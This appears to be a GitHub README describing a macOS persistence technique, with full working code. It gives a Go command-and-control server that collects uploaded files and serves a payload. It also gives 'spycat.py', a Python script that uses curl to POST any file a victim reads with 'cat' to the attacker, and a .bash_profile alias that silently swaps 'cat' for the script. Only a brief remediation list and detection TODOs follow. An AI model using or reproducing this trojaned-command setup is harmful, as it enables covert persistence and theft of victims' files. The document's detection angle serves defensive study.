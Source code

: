 
Assuming the Attacker is already on the target machine and would like to
establish some level of persistence on the Victim machine.
One possible way to achieve this is by modifying a binary that exists on the Victim's machine.
In a very simple form this results in the victim executing a binary they use everyday and in the
process also execute something for the Attacker. 
The Victim does not notice any difference in behviour of the standard binary.


## Scenario
This simple example with showcase how a python script can be planted on the Victim
machine and the `.bash_profile` can be updated to include and alias to this script.
The example script executes when `cat` is called on a file.
Simultaneously the contents of the file are sent to the Attacker.

```
┌───────────────┐              ┌───────────────┐
│    Victim     │              │    Attacker   │
│               │              │               │
│   spycat.py   │              │     C2.go     │
│               │              │               │
│   http POST   ├──────────────►   (log.txt)   │
│               │              │               │
└───────────────┘              └───────────────┘
```

The Victim machine will be MacOS in this case.
The Attacker machine is linux running a custom golang http server.


### Attacker Setup
The GoLang server has a single endpoint which accepts the `POST` of file data.
It writes the output to a log file `log.txt`.

Its composition is as such...

```
package main

import (
  "fmt"
  "net/http"
  "log"
  "os"
  "bytes"
  "io"
)


func ReceiveFile(w http.ResponseWriter, r *http.Request) {
    r.ParseMultipartForm(32 << 20) // limit your max input length!
    var buf bytes.Buffer
    file, header, err := r.FormFile("file")
    if err != nil {
        panic(err)
    }
    defer file.Close()
    //name := strings.Split(header.Filename, ".")
    name := header.Filename
    fmt.Printf("File name %s\n", name)
    io.Copy(&buf, file)
    contents := buf.String()
    fmt.Println(contents)
    os.WriteFile(name, buf.Bytes(), 0600)
    buf.Reset()
    return
}


func handler(w http.ResponseWriter, r *http.Request) {
  switch r.Method {
  case "POST":
    ReceiveFile(w, r)
  default:
    fmt.Fprintf(w, "Hello world")
  }
}


func main() {
  fmt.Println("Starting Server")
  http.HandleFunc("/", handler)
  log.Fatal(http.ListenAndServe(":9999", nil))
}

```

The go server can be started using `go run server.go`.

As a bonus let's add another endpoint which will simply allow for downloading the malicious script.

GET request
```
  case "GET":
    filename := "spycat.py"
    body, _ := os.ReadFile(filename)
    fmt.Fprintf(w, string(body[:]))
```

Full script can be found in the `examples` directory in `server.go`.

This script can be downloaded using any HTTP delivery mechanism,
for testing try it as CURL

```
curl -s https://localhost:8080/spycat >> spycat.py
```

### Victim Setup

A Python script can be created on the Victim machine which leverages the default
Python interpreter installed on MacOS.
Create the script on the machine or download from the Attackers C2 server.

It may look like 

```
import sys
import subprocess


#TODO Add to doc how to update the bash_profile to have this
# spycat by the one used instead of real 'cat'

def main(*args):
  filename = " ".join(args[0])
  #TODO handle command line arguments passed to 'cat'
  cmds = ["curl -s http://localhost:9999 -F 'file=@{0}'".format(filename)]

  print(args[0])
  cat_cmd = " ".join(args[0])
  print(cat_cmd)
  cmds.append("cat " + filename)
  print(cmds)

  #TODO create loop to execute bad command first followed by legit 'cat'
  for cmd in cmds:
      result = subprocess.check_output(cmd, shell=True)
      print(result)

if __name__ == "__main__":

  #TODO get rid of this since cat will be name and can simplify
  # append statement above and reduce code size
  # easier to test tho this way lol
  args = sys.argv[1:]
  main(args)

```

Create an alias that points the normal `cat` command to the malicious version.

```
alias cat="python <absolute_path_to_file>/spycat.py"
```

Now whenever the Vicitim `cat`s a file the content will be displayed to there terminal as well as sent to the Attacker.

## Remediation
* Read this blogpost, ie ingest this information into TIP platform (URL, filehash)
* Update endpoint signatures or create rule
* Threat hunt for any activity
* Block malicious domains and urls on the firewall

### TODO
```
[] Show XQL for finding this activity
[] Create BIOC and correlation rule in XDR/XSIAM
[] Automation Remediation Playbook
[] Blocking on EDL/within XDR
[] Enriching/Tracking in XSIAM/XSOAR TIM
[] Create Terraform Template for deployment
```
